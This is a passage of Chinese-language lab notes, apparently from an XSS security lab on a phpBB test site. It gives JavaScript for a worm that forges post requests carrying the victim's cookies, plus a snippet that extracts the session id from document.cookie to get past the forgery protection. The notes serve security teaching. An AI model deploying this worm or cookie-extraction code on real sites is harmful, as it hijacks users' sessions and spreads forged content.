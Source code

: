 ```html
<script>
  var Ajax = null;
  // 构造HTTP请求的标题信息
  Ajax = new XMLHttpRequest();
  Ajax.open("POST", "http://www.xsslabphpbb.com/posting.php", true);
  Ajax.setRequestHeader("Host", "www.xsslabphpbb.com");
  Ajax.setRequestHeader("Keep-Alive", "300");
  Ajax.setRequestHeader("Connection", "keep-alive");
  Ajax.setRequestHeader("Cookie", document.cookie);
  Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  // 构建内容。 可以从LiveHttPheader学习内容的格式。 我们需要填写的只是subject, message, 和 sid
  var content = "subject=" + "XSSWorm" + ...; //这些参数事实上一个都不能少，都要有
  // 发送 HTTP POST 请求
  Ajax.send(content);
</script>
```

### 编写脚本

> 为了使我们的蠕虫能够工作，我们应该注意phpBB如何使用会话id信息。从LiveHTTPHeaders扩展的输出中，我们可以注意到sid在消息发布请求中出现了两次。一个是在饼干部分(它被称为phpbb2mysql sid).因此，XMLHttpRequet发送的HTTPPOST请求也必须包括Cookie。 
>
> 如果我们仔细查看LiveHTTPHeaders的输出，我们可以看到相同的会话id也出现在以“主题=”开头的行中。phpBB服务器在这里使用会话id来防止其他类型的攻击(即。跨站点请求伪造攻击)。在我们伪造的消息发布请求中，我们还需要添加这个会话id信息；这个会话id的值与phpbb2mysql中的值完全相同 sid。如果请求中没有此会话id，服务器将丢弃该请求。 
>
> 为了从Cookie中检索sid信息，您可能需要在JavaScript中学习一些字符串操作。

使用如下的代码即可获取32长度的sid。

```
var c = document.cookie;
var i = c.indexOf("sid=")
c.slice(i + 4, i + 4 + 32);
```

![image-20220316171537760](XSSAttack/image-20220316171537760.png)
